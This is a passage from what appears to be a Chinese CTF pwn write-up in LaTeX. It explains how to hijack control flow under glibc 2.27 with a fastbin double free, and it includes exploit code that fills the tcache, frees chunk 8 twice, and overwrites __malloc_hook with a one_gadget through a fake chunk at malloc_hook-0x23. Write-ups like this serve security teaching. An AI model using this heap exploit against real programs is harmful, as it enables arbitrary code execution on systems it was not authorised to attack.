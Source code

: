 \subsubsection*{劫持控制流}
首先需要通过fastbin double free向\_\_malloc\_hook中写入one\_gadget地址。

为了构造出两个fastbin来实施攻击，首先要满足堆块大小在32-128范围内，此处选用0x68的大小进行攻击，原因稍后解释。其次，0x68大小的tcache被填满之后，释放的堆块才会被放入fastbin。首先释放7个chunk填满tcache，之后释放的2个chunk就会成为fastbin:
\begin{lstlisting}
    # add 8 more chunks, 6 for filling tache, 2 for double free
    for i in range(8):
        add(0x68, 'A'*0x68) # add 2-9
    for i in range(9):
        delete(i + 1) # delete 1-9, then 8 and 9 in fastbin
    delete(8)   # double free!
\end{lstlisting}
以上代码最后一句直接触发了double free，让fastbin链表成为`8->9->8`。此时，可以通过如下堆块添加序列来完成对malloc\_hook的写入:
\begin{lstlisting}
    add(0x68,p64(malloc_hook - 0x23)) #add 10, fastbin: 8->9->(malloc_hook - 0x23)
    add(0x68, '1') # add 11, fastbin: 9->(malloc_hook - 0x23)
    add(0x68, '1') # add 12, fastbin: (malloc_hook - 0x23)
    add(0x68, flat(['A'*0x13, p64(one_gadget)])) # add 13, write to (malloc_hook - 0x23), overwrite malloc_hook with one_gadget
\end{lstlisting}
fastbin链表变化见以上代码的注释。

这里读者可能会有疑惑：
\begin{itemize}
    \item 为什么在分配chunk 10时，没有分配tcache中的free chunk，而是直接分配了fastbin中的chunk？
    \item 为什么选取malloc\_hook-0x23为目标地址，而非直接选取malloc\_hook-0x10，chunk内容直接填充p64(one\_gadget)，从而直接向malloc\_hook写入one\_gadget？
\end{itemize}
第一个问题非常简单，本题中使用calloc分配内存，不会分配tcache中的chunk。

至于第二个问题，是为了满足分配内存时size位的检测。在分配内存时，glibc2.27会检测分配的目标chunk的size域和要求的size是否一致，不一致则会报错。在malloc\_hook-0x23位置处，读取到的chunk的size域为0x7f，如图~\ref{fig:4}，glibc2.27的转换方式计算出的fastbin\_index=$(0x7f>>4)-2=5$，该fastbin\_index对应的fastbin大小为0x70，使用0x68大小的chunk恰好可以满足要求。
\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{WP/pwn/pic/4.jpg}
    \caption{malloc\_hook-0x23处fake chunk的size域}
    \label{fig:4}
\end{figure}

